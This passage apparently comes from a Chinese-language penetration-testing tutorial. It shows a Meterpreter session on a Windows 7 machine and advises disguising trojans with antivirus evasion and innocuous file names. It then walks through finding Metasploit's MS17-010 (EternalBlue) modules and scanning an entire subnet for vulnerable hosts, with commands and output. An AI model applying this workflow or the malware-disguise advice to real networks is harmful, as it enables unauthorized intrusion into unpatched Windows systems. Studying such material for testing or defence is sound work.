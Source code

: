 ```shell
meterpreter > sysinfo
Computer        : USER-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : zh_CN
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
```

真正渗透的时候一般都会对木马做免杀，伪装等等处理，最起码改个什么QQupdata，system.dll之类的名称来做伪装。

## 经典款漏洞ms17010

> 常见的软件漏洞一般就算能拿到shell也是最低权限的shell，但是，感谢微软，一步到位system权限的漏洞是鉴中之鉴。————Neko205

感谢msf，让一切变得简单轻松加愉快，特别是这种常见或者经典的漏洞。我们只需要找到漏洞的poc对内网进行扫描，找到漏洞设备，用exp发动攻击就好了。

```shell
msf6 exploit(multi/handler) > search ms17-010

Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution


Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/smb/smb_doublepulsar_rce
```

`use 3`

设置ip，设置线程数。也可以使用options来查看相信设置

`set rhost 192.168.43.155/24`

对整个网段进行扫描

`set threads 100`

设置100的线程数

run
